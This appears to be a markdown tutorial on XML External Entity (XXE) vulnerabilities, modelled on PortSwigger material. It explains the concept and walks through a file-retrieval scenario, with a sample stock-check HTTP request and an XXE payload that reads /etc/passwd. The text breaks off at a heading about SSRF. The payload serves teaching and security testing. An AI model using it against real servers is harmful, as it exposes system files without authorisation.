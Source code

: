 # XXE (XML External Entity)
## [REFERENCE](https://portswigger.net/web-security/xxe)

## What is XXE ??

   1) Web security vulnerability that allows an attacker to interfere with an application's processing of XML data. 

   2) It often allows an attacker to view files on the application server filesystem, and to interact with any back-end or external systems that the application itself can access.

## Root Cause of XXE ?? 

   1) Some applications use the XML format to transmit data between the browser and the server. Applications that do this virtually always use a standard library or platform API to process the XML data on the server. 

   2) XXE vulnerabilities arise because the XML specification contains various potentially dangerous features, and standard parsers support these features even if they are not normally used by the application.   
---

### ########### ATTACK SCENARIO_############   

### 1 - Exploiting XXE to retrieve files 

1) Consider we're testing an E-commerce application in which application fetches stock of the product from server and display the results and errors and the request goes like this ...

	   POST /product/stock HTTP/2
	   Host: subdomain.target.com
	   Cookie: session=ULqvEo6l9eIJ36rlH4NmVQivmqegNurA
	   Content-Length: 107
	   ...
	   ...
	   Connection: close
       ..
	   <?xml version="1.0" encoding="UTF-8"?>
	   <stockCheck>
	    <productId>2</productId>
		<storeId>1</storeId>
	   </stockCheck>

2) Here the application fetches the stock of the product by parsing XML input. (1-productId, 2-storeId)
3) So we can add our payload : `<!DOCTYPE foo [<!ENTITY xxe SYSTEM "file:///etc/passwd"> ]>`
4) and by calling the `%xxe` entity , we get the content of `/etc/passwd` in the response, 
	So the payload looks like this...

	   <?xml version="1.0" encoding="UTF-8"?>
	   <!DOCTYPE foo [<!ENTITY xxe SYSTEM "file:///etc/passwd"> ]>
	    <stockCheck>
	    	<productId>2&xxe;</productId>
	    	<storeId>1</storeId>
	    </stockCheck>
---
### 2 - Exploiting XXE to perform SSRF attacks

